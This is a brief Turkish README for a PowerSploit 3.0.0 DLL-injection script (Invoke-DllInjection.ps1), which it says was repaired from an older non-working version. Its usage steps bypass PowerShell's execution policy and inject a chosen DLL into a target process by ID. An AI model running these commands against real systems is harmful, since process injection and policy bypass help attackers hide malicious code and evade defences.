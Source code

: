 # Açıklama:
Script powersploit 3.0.0 versiyonudur.
Çalışmayan eski versiyon düzenlenmiştir.
# Kullanımı:
powershell -ep bypass
. .\Invoke-DllInjection.ps1
  Invoke-DllInjection
      ProcessID: <id> // bizden enjekte edeceğimiz process id değerini istemekte.
      Dll: dll dosyamızın yolu.
